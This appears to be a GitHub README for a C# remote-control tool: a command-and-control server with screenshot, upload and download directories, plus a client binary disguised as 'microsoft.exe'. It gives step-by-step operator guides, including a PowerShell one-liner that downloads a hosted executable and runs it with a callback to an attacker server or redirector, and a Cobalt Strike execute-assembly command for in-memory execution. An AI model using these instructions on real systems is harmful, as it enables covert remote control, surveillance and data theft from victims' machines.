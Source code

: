 # Remote Process Tool
	Remote Process Tool is a C# .Net Core Server and .Net Framework Client
	The tool can be staged to be run in targets memory
	The tool can also be executed through a Cobalt Strike beacon

# C2 Server Setup
# Linux Server Guide

	- Linux server ELF is found in Server/linux-x64/publish/DLServer

	- Inside the ELF folder create 3 directories called "screenshots", "uploads", "downloads"

	- chmod DLServer and run it by calling ./DLServer [port]

	- This will start a TcpListener on port "port" *If port is left blank the default port is set to 8080*


# Windows Server Guide

	- Windows server EXE is found in Server\win-x64\publish\DLServer.exe

	- Inside the EXE folder create 3 directories called "screenshots", "uploads", "downloads"

	- This can be run by calling .\DLServer.exe [port]

	- This will start a TcpListener on port "port" *If port is left blank the default port is set to 8080*


# Target Execution Guide

	- The target EXE is found in the "WinBinary" directory labelled as "microsoft.exe"

	- If you are using a redirector run the command ".\microsoft.exe [redirector_ip] [redirector_port]"

	- If you are doing a straight callback to your server run the command ".\microsoft.exe [your_ip] [your_port]" *Note this is not recommended*


# Attacker Execution Guide (No Cobalt)

	- Setup your redirector to listen and forward to your DLServer

	- Host the windows executable on a HTTP server

	- Run the following command on the client to download and execute:
		"Invoke-WebRequest "hosted_exe" -OutFile microsoft.exe;.\microsoft.exe [server/redirector ip] [server/redirector port]"

# Cobalt Beacon Guide

	- Once you have a beacon you may execute the following Cobalt command to run the executable in memory:
		"execute-assembly [location_to_exe] [server/redirector ip] [server/redirector port]" 	
